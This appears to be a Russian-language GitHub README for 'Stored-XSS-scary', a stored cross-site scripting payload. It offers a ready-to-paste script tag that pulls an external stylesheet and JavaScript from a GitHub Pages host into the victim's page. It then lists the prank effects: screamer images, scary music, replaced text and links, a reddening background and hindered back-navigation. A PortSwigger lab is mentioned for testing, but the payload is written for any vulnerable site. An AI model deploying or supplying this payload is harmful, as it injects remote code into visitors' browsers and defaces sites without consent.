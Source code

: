 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/bb422629-d35f-476e-841e-461b51f6bd0e

------------------------------------------

Полная версия (JS + CSS) [288 символов]:
> <script>var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r);</script>

* Страшная музыка.
* Постепенно изменяющийся цвет фона на красный.
* Прыгающий и мигающий текст.
* Частичные трудности при возвращении на предыдущую страницу.
* Замена всех изображений на скример.
* Замена текста из тегов "p", "h1", "a".
* Замена всех тегов "a" на "p".
* Скример на весь экран с криком в течение какого-то времени.
